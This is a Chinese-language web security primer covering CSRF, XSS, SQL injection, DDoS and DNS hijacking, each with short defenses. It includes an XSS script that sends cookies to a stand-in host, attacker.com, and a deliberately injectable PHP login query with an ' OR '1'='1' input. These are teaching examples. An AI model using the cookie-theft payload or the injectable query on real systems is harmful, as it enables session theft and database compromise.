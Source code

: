 ```yaml
---
title: 网络安全
sidebar_label: 网络安全
slug: network-safe
description: 网络安全
---
```


### CSRF
CSRF是一种网络安全攻击方式。攻击者通过获取用户在应用程序中已经验证过的信息，来模拟用户行为执行非法操作。

防御方法：
1. 引入随机令牌，每次请求必须带上随机令牌。如果请求没有带上有效的随机令牌，服务端将拒绝执行请求。
2. 随机令牌可以引入混淆代码等功能。

### XSS
XSS是一种常见的网络安全攻击方式。攻击者通过注入恶意脚本到指定网站上，诱导用户点击触发攻击脚本。

一般常用于在带有用户输入的web应用程序中，攻击者通过不正确的处理用户输入漏洞，来达到注入恶意脚本的目的。

举例说明：
```html title="攻击者提交的评论"
<script>
  // 恶意脚本：窃取用户 cookie 并发送到攻击者服务器
  var img = new Image();
  img.src = 'http://attacker.com/steal.php?cookie=' + document.cookie;
</script>
```

防御方法：
1. 对用户输入进行合法校验。包括字符校验和格式校验。
2. 对程序输出进行合理转义，避免动态脚本执行。

### SQL注入
SQL注入是一种网络安全攻击方式。攻击者通过在应用程序输入中注入恶意的SQL代码，从而影响数据库的正常执行。

举例说明：
```php
// PHP 后端代码
$username = $_POST['username'];
$password = $_POST['password'];

$sql = "SELECT * FROM users WHERE username='$username' AND password='$password'";
$result = mysql_query($sql);

// 用户输入
' OR '1'='1'; --

// 最终结果会使查询返回所有用户，因为条件 '1'='1' 总是为真，注释符 -- 会注释掉原始查询的剩余部分。
SELECT * FROM users WHERE username='' OR '1'='1'; --' AND password='';
```

防御方法：
1. 对用户输入进行合法校验。包括特殊字符和格式校验。
2. 参数化查询，避免直接使用


### DDoS
DDoS也叫分布式拒绝服务攻击。攻击者通过占大量请求占用目标服务器资源，使其无法响应正常的请求。

防御方法：
1. 流量过滤与清洗，包括IP封禁


### DNS劫持
攻击者通过劫持或者篡改DNS请求，将用户重定向到恶意站点。

举例说明：
1. DNS劫持：通过入侵或者篡改DNS服务器，将合法域名隐射到恶意IP地址
2. DNS DDoS：攻击者通过发生大量恶意的DNS查询请求，超过目标服务器处理能力，从而导致服务中断











